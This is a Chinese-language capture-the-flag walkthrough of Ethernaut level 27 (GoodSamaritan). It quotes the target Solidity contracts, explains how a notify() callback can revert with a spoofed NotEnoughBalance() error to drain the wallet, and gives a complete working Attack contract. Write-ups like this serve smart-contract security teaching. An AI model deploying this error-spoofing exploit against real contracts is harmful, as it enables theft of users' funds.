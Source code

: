 # GoodSamaritan

## Reference
[GoodSamaritan](https://ethernaut.openzeppelin.com/level/27)

[GoodSamaritan.sol](https://github.com/yuhuajing/ethernaut-book/blob/main/src/27-GoodSamaritan/GoodSamaritan.sol)

[//]: # ([ABiCode]&#40;https://medium.com/@scourgedev/deep-dive-into-abi-encode-types-padding-and-disassembly-84472f1b4543&#41;)

## 目标
掏空奖池

## 分析
### Wallet
```solidity
    function donate10(address dest_) external onlyOwner {
        // check balance left
        if (coin.balances(address(this)) < 10) {
            revert NotEnoughBalance();
        } else {
            // donate 10 coins
            coin.transfer(dest_, 10);
        }
    }

    function transferRemainder(address dest_) external onlyOwner {
        // transfer balance left
        coin.transfer(dest_, coin.balances(address(this)));
    }
```
#### wallet函数分析
1. `donate10()` 函数存在两个分支：
   1. 钱包余额小于10的话，返回 `revert NotEnoughBalance()` 报错
   2. 调用 `Coin-transfer()` 函数，转账 `10Token` 到特定账户。
2. `transferRemainder()` 函数，调用 `Coin` 合约，将 `wallet` 全部资产转到特定地址
### Coin
```solidity
    function transfer(address dest_, uint256 amount_) external {
        uint256 currentBalance = balances[msg.sender];

        // transfer only occurs if balance is enough
        if (amount_ <= currentBalance) {
            balances[msg.sender] -= amount_;
            balances[dest_] += amount_;

            if (dest_.isContract()) {
                // notify contract
                INotifyable(dest_).notify(amount_);
            }
        } else {
            revert InsufficientBalance(currentBalance, amount_);
        }
    }
```
#### coin函数分析
1. `Coin-transfer()` 函数首先查询调用者的余额，和转账金额进行匹配：
   1. 匹配成功的话：
      1. 更新 `from/to` 的地址的余额 
      2. 如果 `to` 地址是合约地址的话，调用 `to-的notify()` 函数
   2. 匹配失败的话，返回 `revert InsufficientBalance()` 错误
   
### GoodSamaritan
```solidity
    function requestDonation() external returns (bool enoughBalance) {
        // donate 10 coins to requester
        try wallet.donate10(msg.sender) {
            return true;
        } catch (bytes memory err) {
            if (
                keccak256(abi.encodeWithSignature("NotEnoughBalance()")) ==
                keccak256(err)
            ) {
                // send the coins left
                wallet.transferRemainder(msg.sender);
                return false;
            }
        }
    }
```
#### 函数分析
1. `requestDonation` 函数捕获 `wallet-donate10` 的异常：
   1. 无异常的话，返回 `true`
   2. 如果异常类型是 `NotEnoughBalance()` 的错误：
      1. 默认余额不足，调用 `Wallet-transferRemainder()` 函数转账全部资产
   3. 不捕获其余异常

## 攻击合约分析
```solidity
    function notify(uint256 amount) external {
   // while (coin.balances(address(wallet)) > 999690) {
   //     goodSamaritan.requestDonation();
   // }
   if (amount <= 10) {
      revert NotEnoughBalance();
   }
}
```
1. `to` 合约调用 `GoodSamaritan-requestDonation()` 函数，并捕获异常： 
   1. 首先调用 `Wallet-donate10()` 函数，`Wallet` 钱包存在 `10**6Token` , 进入 `Wallet-donate10()` 第二分支`（Coin-transfer）` 
   2. `Wallet` 钱包存在足额资产，在 `Coin-transfer()` 中进入第一分支 
   3. 在 `Coin-transfer()` 第一分支中，首先更新 `from/to` 地址余额，之后调用 `to-notify()` 函数
   4. `to` 合约中定义 `notify()` 函数，在余额小于等于10的情况下返回 `revert NotEnoughBalance()` 报错
2. `GoodSamaritan-requestDonation()` 函数捕获到异常：`NotEnoughBalance()`
   1. 在 `NotEnoughBalance` 异常匹配中，调用 `Wallet-transferRemainder()` 函数
   2. `Wallet-transferRemainder()` 函数 底层调用 `Coin-transfer()` 函数，转移全部的Token资产
   3. `Coin-transfer()` 函数进入转账环节，在调用 `to-notify()` 函数时，余额不小于10，则不会返回 `revert` 报错
   4. 交易完成

### Attack合约
```solidity
contract Attack is INotifyable {
    GoodSamaritan public goodSamaritan;
    // Coin coin;
    // Wallet wallet;
    error NotEnoughBalance();

    constructor(GoodSamaritan _goodSamaritan) //   Coin _coin,
    // Wallet _wallet
    {
        goodSamaritan = _goodSamaritan;
        // coin = _coin;
        // wallet = _wallet;
    }

    function notify(uint256 amount) external {
        // while (coin.balances(address(wallet)) > 999690) {
        //     goodSamaritan.requestDonation();
        // }
        if (amount <= 10) {
            revert NotEnoughBalance();
        }
    }

    function attack() external {
        goodSamaritan.requestDonation();
    }
}
```
